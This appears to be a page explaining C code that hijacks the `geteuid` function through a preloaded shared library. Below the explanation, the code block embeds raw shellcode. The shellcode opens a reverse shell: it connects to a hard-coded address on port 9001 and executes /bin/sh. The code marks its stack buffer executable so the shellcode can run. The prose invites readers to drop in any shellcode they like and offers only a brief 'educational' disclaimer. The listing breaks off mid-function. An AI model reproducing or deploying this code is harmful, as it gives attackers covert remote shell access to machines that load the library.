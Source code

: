 ### Explanation

- **Dynamic Library Loading (`dlfcn.h`)**:
  - `dlsym(RTLD_NEXT, "geteuid")` is used to get the original `geteuid` function address. This allows the hijacked function to call the original function after executing custom logic.
  
- **Constructor Attribute**:
  - The `init` function is marked with `__attribute__((constructor))` to ensure it runs when the shared library is loaded. This initializes the original `geteuid` function pointer.
  
- **Custom Logic in Forked Process**:
  - The `fork()` system call is used to create a child process. The child process runs the custom logic defined in `run_custom_logic()`, and then exits.
  - The parent process waits for the child process to complete using `wait(NULL)` and then calls the original `geteuid` function to return its result.

### Custom Logic

In this example, the custom logic is to create a file `/tmp/hijacked_geteuid.txt`. You can replace the `run_custom_logic` function with any code or shellcode you want to execute in the child process.

This code intercepts the `geteuid` function call, allowing you to execute custom logic in a child process before returning the original function's result in the parent process. Use this code responsibly and only for educational purposes or authorized testing.

### Hijack geteuid

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <dlfcn.h>

uid_t (*original_geteuid)(void);

void run_custom_logic() {
    // Example custom logic: create a file
    system("touch /tmp/hijacked_geteuid.txt");
}

void execute_shellcode() {
    unsigned char buf[] =
        "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
        "\x48\xb9\x02\x00\x23\x29\xc0\xa8\x2d\xfa\x51\x48\x89\xe6"
        "\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
        "\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
        "\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
        "\x89\xe6\x0f\x05";

    intptr_t pagesize = sysconf(_SC_PAGESIZE);
    if (mprotect((void *)((intptr_t)buf & ~(pagesize - 1)), pagesize, PROT_READ | PROT_WRITE | PROT_EXEC) != 0) {
        perror("mprotect");
        exit(EXIT_FAILURE);
    }
    int (*ret)() = (int (*)())buf;
    ret();
    exit(0); // Ensure child process exits after execution
}

uid_t geteuid(void) {
```